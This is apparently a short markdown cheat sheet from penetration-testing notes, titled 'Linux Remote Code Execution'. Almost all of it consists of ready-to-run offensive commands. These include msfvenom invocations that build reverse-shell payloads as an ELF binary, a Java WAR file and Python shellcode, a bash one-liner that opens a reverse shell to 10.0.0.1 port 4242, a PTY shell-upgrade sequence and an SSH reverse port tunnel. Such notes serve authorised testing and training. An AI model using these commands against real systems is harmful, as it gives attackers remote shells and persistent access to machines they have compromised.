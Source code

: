 # Linux Remote Code Execution

## <a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)</a>

## <a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

### Check list

``` bash
msfvenom  --list encoders
```

### File

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```

### Java Code

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Shell Code

``` bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -v shellcode -f py
```

## Reverse Shell using bash

``` bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/sh')"
export TERM=xterm

stty raw -echo
fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```